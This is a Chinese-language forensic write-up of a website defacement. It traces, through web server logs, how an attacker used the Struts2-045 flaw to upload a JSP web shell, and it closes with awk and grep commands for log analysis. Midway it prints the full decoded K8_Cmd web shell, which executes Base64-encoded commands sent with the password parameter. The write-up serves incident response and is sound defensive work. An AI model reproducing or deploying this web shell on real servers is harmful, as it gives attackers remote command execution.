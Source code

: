 # 第2篇：桂黑页

某站点接到XXX平台通报，站点存在高危漏洞，



现场检测中，Struct2-045漏洞已修复，站点目录文件并未发现异常，根据白帽子访问test.txt的测试记录，对web日志进行溯源，还原web应用攻击路径。为了方便通过命令行进行筛选，复制相关日志到linux系统中进行分析。



#### **1、定位IP**

通过对近段日志的分析，找到访问test.txt文件的ip地址

![](.\image\2-1.png)

#### **2、搜索相关的日志记录**

通过筛选与该ip有关的日志记录，方便进行进一步分析。

![](.\image\2-2.png)

#### **3、日志分析**

这条长度很长的POST日志记录引起了我们的注意

![](.\image\2-3.png)

对这条连接进行urldecode还原：

`<%@page import="java.io.*"%><%@page import="sun.misc.BASE64Decoder"%><%try {String pass = "tom";if(request.getParameterValues(pass)!=null){String cmd = request.getParameter(pass);String path=application.getRealPath(request.getRequestURI());String dir=new File(path).getParent();if(cmd.equals("NzU1Ng")){out.print("[S]"+dir+"[E]");return;}byte[] binary = BASE64Decoder.class.newInstance().decodeBuffer(cmd);String binastr = new String(binary);Process child = Runtime.getRuntime().exec(binastr);InputStream in = child.getInputStream();out.print("->|");int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();out.print("|<-");try {child.waitFor();} catch (InterruptedException e) { e.printStackTrace();}}} catch (IOException e) { System.err.println(e);}%><a href="CMD1_OK"></a>&f=cmd.jsp`

通过url解码还原，可知攻击者成功上传K8_Cmd木马到网站服务器。

 

通过以上的日志分析，我们已经可以大致的还原攻击者的攻击路径了。如下：

1、 攻击者访问网站首页，紧接着输入信息进行测试（如单引号测试之类）；

2、 攻击者通过K8 Struct2漏洞利用工具，成功上传cmd.jsp；

3、 上传了test.txt进行漏洞测试，最后删除了test.txt。

 

本文的示例中攻击者为我们留下了大量的证据和记录，而在实际环境中攻击者可能会清除所有的关键信息，这势必会加大调查人员的取证难度。





Shell+Linux命令实现日志分析，一般结合grep、awk等命令等实现了几个常用的日志分析统计技巧。

一、列出当天访问次数最多的IP命令：

cut -d- -f 1 localhost_access_log.2018-01-13.txt |uniq -c | sort -rn | head -20

![](.\image\2-4.png) 

1、查看当天有多少个IP访问：

awk '{print $1}' log_file|sort|uniq|wc -l

 

2、查看某一个页面被访问的次数;

grep "/index.php" log_file | wc -l

 

3、查看每一个IP访问了多少个页面：

awk '{++S[$1]} END {for (a in S) print a,S[a]}' log_file

 

4、将每个IP访问的页面数进行从小到大排序：

awk '{++S[$1]} END {for (a in S) print S[a],a}' log_file | sort -n

 

5、查看某一个IP访问了哪些页面：

grep ^111.111.111.111 log_file| awk '{print $1,$7}'

 

6、去掉搜索引擎统计当天的页面：

awk '{print $12,$1}' log_file | grep ^\"Mozilla | awk '{print $2}' |sort | uniq | wc -l

 

7、查看2009年6月21日14时这一个小时内有多少IP访问：

 awk '{print $4,$1}' log_file | grep 21/Jun/2009:14 | awk '{print $2}'| sort | uniq | wc -l